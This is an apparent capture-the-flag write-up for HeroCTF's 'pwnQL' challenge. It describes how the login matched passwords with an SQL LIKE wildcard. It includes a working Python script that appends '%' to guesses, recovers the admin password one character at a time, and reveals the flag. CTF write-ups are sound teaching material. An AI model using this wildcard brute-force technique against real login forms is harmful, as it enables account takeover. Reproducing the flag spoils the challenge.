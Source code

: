 
In the second round of ``pwnQL``, we were asked to get the admin's password for flag. As we already known the server was checking password fuzzly, we generate passwords end with *%* to find out character at each position. The passwords are generated from printable characters exclude '%'. The length was set to 6 by guess, turned out it was 10.

Here is the brute-force process.

```python
candidates = string.printable[:66] + string.printable[67:]

def guess():
    user = "admin"
    pw = []
    url = "http://chall1.heroctf.fr:8080/index.php"
    for i in range(10):
        for a in candidates:
            pw.append(a)
            rsp = requests.post(url, data={
                "username": user,
                "password": ''.join(pw) + '%',},
                headers={
                'Content-Type': 'application/x-www-form-urlencoded',
                },)

            if not "Wrong username or password" in rsp.text:
                print(pw)
                break
            pw = pw[:len(pw)-1]
            time.sleep(1)

    print('password:', ''.join(pw))

guess()
```

After minutes running, the password came out, it was *s3cur3p@ss*, so the flag was *Hero{s3cur3p@ss}*.
